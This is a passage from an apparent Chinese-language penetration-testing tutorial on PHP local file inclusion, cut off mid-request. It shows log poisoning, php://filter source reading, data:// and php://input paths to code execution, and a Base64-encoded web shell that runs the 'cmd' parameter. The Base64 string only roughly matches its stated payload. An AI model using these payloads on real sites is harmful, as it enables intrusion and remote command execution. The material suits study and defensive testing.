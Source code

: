             或者直接将代码作为请求发送 (可能会记录为无效请求，但代码仍在日志中)：
            ```bash
            echo '<?php phpinfo(); ?>' | nc vulnerable.com 80
            ```
    3.  **包含日志文件**: 利用 LFI 漏洞包含日志文件。如果注入的代码需要参数（如 `$_GET['cmd']`），则在包含日志文件的 URL 中带上该参数。
        ```
        http://vulnerable.com/index.php?page=../../../../var/log/apache2/access.log&cmd=ls -al
        http://vulnerable.com/index.php?page=/var/log/nginx/access.log&c=whoami
        ```
*   **注意**: 日志文件可能很大，并且注入的代码可能会被 URL 编码或与其他日志条目混合，需要仔细构造 payload。

#### 3. 利用 PHP 封装协议 (PHP Wrappers)

PHP 支持多种内置的 URL 风格封装协议，可用于文件系统函数，这些协议在文件包含漏洞中非常有用。

*   **`php://filter` (读文件/转换)**: 元封装器，允许在读写流时应用过滤器。常用于读取 PHP 文件源码（避免被执行）或对任意文件内容进行编码/转换后读取。
    *   **读取源码 (Base64 编码)**:
        ```
        http://vulnerable.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php
        ```
        页面会返回 `config.php` 文件内容的 Base64 编码，解码后即可获得源码。
    *   **其他过滤器示例**: PHP 提供多种过滤器，可用于观察输出或潜在的绕过。
        | Payload (读取 `.htaccess`)                             | Output (示例)                                  |
        | :----------------------------------------------------- | :--------------------------------------------- |
        | `php://filter/convert.base64-encode/resource=.htaccess` | `UmV3cml0ZUVuZ2luZSBvbgpPcHRpb25zIC1JbmRleGVz` |
        | `php://filter/string.rot13/resource=.htaccess`          | `ErjevgrRatvar ba Bcgvbaf -Vaqrkrf`            |
        | `php://filter/string.toupper/resource=.htaccess`        | `REWRITEENGINE ON OPTIONS -INDEXES`            |
        | `php://filter/string.tolower/resource=.htaccess`        | `rewriteengine on options -indexes`            |
        | `php://filter/string.strip_tags/resource=.htaccess`     | `RewriteEngine on Options -Indexes`            |
        | `.htaccess` (无过滤器)                                 | `RewriteEngine on Options -Indexes`            |
    *   **LFI to RCE (结合 `convert.base64-decode` 和 `data://`)**:
        如果 `allow_url_include = On`，可以构造 payload 来解码并执行 Base64 编码的 PHP 代码。
        **Payload**: `<?php system($_GET['cmd']); echo 'Shell done!'; ?>`
        **Base64 Encoded**: `PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+`
        **构造 URL**:
        ```
        http://vulnerable.com/index.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=whoami
        ```
        **分解**:
        - `php://filter`: 使用过滤器协议。
        - `convert.base64-decode`: 指定解码过滤器。
        - `resource=data://plain/text,...`: 指定资源为 data 协议。
        - `,PD9wa...Pz4+`: Base64 编码的 PHP 代码。
        服务器会先解码 Base64 数据，然后 `include` 执行解码后的 PHP 代码。 **注意**: `&cmd=whoami` 参数需要附加在 URL 末尾，不能包含在 base64 编码部分。

*   **`php://input` (执行 POST 数据)**: 只读流，可以访问请求的原始 POST 数据体。如果存在文件包含漏洞，并且 `allow_url_include = On`，可以利用 `php://input` 来执行任意 PHP 代码。
    *   **构造请求**:
        1.  **URL**: `http://vulnerable.com/index.php?page=php://input`
        2.  **Method**: POST
        3.  **Request Body**: 放入要执行的 PHP 代码。
            ```http
            POST /index.php?page=php://input HTTP/1.1
            Host: vulnerable.com
            Content-Type: application/x-www-form-urlencoded
            Content-Length: 28
